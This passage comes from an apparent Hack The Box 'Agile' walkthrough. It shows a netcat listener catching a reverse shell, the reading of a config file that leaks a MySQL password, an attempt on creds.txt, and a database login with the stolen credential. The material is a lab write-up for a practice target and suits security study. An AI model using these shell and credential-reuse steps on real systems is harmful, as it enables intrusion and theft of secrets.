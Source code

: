 Then, netcat listener will take the request and open a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.203] 38810
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Shell as `corum`

### Enumeration

Let's take a look at the webroot directory.

```bash
(venv) www-data@agile:/app$ cat config_prod.json
cat config_prod.json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

From the upper folder `/app`, I can find `config_prod.json` which contains DB credential for `superpassuser` : `dSA6l7q*yIVs$39Ml6ywvgK`
Since `superpassuser` doesn't exist in `/etc/passwd`, I think it will be working only in `mysql`.

```bash
(venv) www-data@agile:/app/app-testing/tests/functional$ ls -al
ls -al
total 20
drwxr-xr-x 3 runner    runner 4096 Feb  7  2023 .
drwxr-xr-x 3 runner    runner 4096 Feb  6  2023 ..
drwxrwxr-x 2 runner    runner 4096 Nov 30 11:33 __pycache__
-rw-r----- 1 dev_admin runner   34 Nov 30 11:36 creds.txt
-rw-r--r-- 1 runner    runner 2663 Nov 30 11:36 test_site_interactively.py
(venv) www-data@agile:/app/app-testing/tests/functional$ cat creds.txt
cat creds.txt
cat: creds.txt: Permission denied
```

I can find `creds.txt` which is expected to have credentials, but can't open it for now.
Probably, I have to move to `dev_admin` to have more permissions.

### mysql

Using the owned credential for `superpassuser`, let's connect to `mysql` service, and try to see what's in it.

```sql
(venv) www-data@agile:/app/app-testing/tests/functional$ mysql -u superpassuser -p
<testing/tests/functional$ mysql -u superpassuser -p     
Enter password: dSA6l7q*yIVs$39Ml6ywvgK

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 38
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```